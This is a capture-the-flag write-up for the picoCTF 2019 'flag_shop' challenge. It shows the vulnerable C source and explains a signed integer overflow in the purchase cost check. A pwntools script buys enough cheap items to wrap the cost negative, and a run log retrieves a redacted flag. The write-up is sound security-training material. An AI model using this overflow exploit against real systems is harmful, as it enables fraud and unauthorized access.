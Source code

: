 # flag_shop

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 300
Tags: picoCTF 2019, General Skills
Author: DANNY

Description:
There's a flag shop selling stuff, can you buy a flag? Source. 

Connect with nc jupiter.challenges.picoctf.org 4906.

Hints:
1. Two's compliment can do some weird things when numbers get really big!
```

## Solution

### Analyse the setup

Lets start by checking the c source code
```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
    setbuf(stdout, NULL);
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){
        
        printf("Welcome to the flag exchange\n");
        printf("We sell flags\n");

        printf("\n1. Check Account Balance\n");
        printf("\n2. Buy Flags\n");
        printf("\n3. Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if(menu == 2){
            printf("Currently for sale\n");
            printf("1. Defintely not the flag Flag\n");
            printf("2. 1337 Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");
                
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }
                }
            }
            else if(auction_choice == 2){
                printf("1337 flags cost 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to buy one");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);
                
                if(bid == 1){
                    
                    if(account_balance > 100000){
                        FILE *f = fopen("flag.txt", "r");
                        if(f == NULL){

                            printf("flag not found: please run this on the server\n");
                            exit(0);
                        }
                        char buf[64];
                        fgets(buf, 63, f);
                        printf("YOUR FLAG IS: %s\n", buf);
                        }
                    
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }}
            }
        }
        else{
            con = 1;
        }
    }
    return 0;
}
```

Here we should note that the `account_balance` variable is a signed integer rather than an unsigned one. (`int account_balance = 1100;`)  
This means it stores both positive and negative numbers in [two's complement](https://en.wikipedia.org/wiki/Two%27s_complement) format.  

We can exploit this fact by wrapping around the value by doing an expensive purchase.  
The purchase needs to be larger than `2**31 - 1` for a 32-bit value.

Each `Defintely not the flag` flag costs `900` and the `1337 Flag` costs 100000. Our start balance is 1100.  
So if we buy `(2**31 - 1 - 1100 + 100000) // 900` flags we ought to wrap around.

### Write a python script

We can use [pwntools](https://docs.pwntools.com/en/stable/index.html) to automate this with a Python script
```python
#!/usr/bin/python

from pwn import *

SERVER = 'jupiter.challenges.picoctf.org'
PORT = 4906

# Set output level (critical, error, warning, info (default), debug)
context.log_level = "info"

io = remote(SERVER, PORT)
# Buy a lot of 'Defintely not the flag' Flags
amount = (2**31 - 1 - 1100 + 100000) // 900
log.info(f"Bying {amount} Defintely not the flag Flags")
io.sendlineafter(b" Enter a menu selection\n", b"2")
io.sendlineafter(b"2. 1337 Flag\n", b"1")
io.sendlineafter(b"These knockoff Flags cost 900 each, enter desired quantity\n", str(amount).encode('ascii'))

# Buy the 1337 flag
log.info(f"Bying 1 1337 Flag")
io.sendlineafter(b" Enter a menu selection\n", b"2")
io.sendlineafter(b"2. 1337 Flag\n", b"2")
io.sendlineafter(b"Enter 1 to buy one", b"1")

# Get the flag
flag = io.recvlineS().strip()
print(flag)
io.close()
```

### Get the flag

Then we run the script to get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2019/General_Skills/Flag_shop]
└─$ ~/python_venvs/pwntools/bin/python get_flag.py
[+] Opening connection to jupiter.challenges.picoctf.org on port 4906: Done
[*] Bying 2386202 Defintely not the flag Flags
[*] Bying 1 1337 Flag
YOUR FLAG IS: picoCTF{<REDACTED>}
[*] Closed connection to jupiter.challenges.picoctf.org port 4906
```

For additional information, please see the references below.

## References

- [Wikipedia - Two's complement](https://en.wikipedia.org/wiki/Two%27s_complement)
- [pwntools](https://docs.pwntools.com/en/stable/index.html)
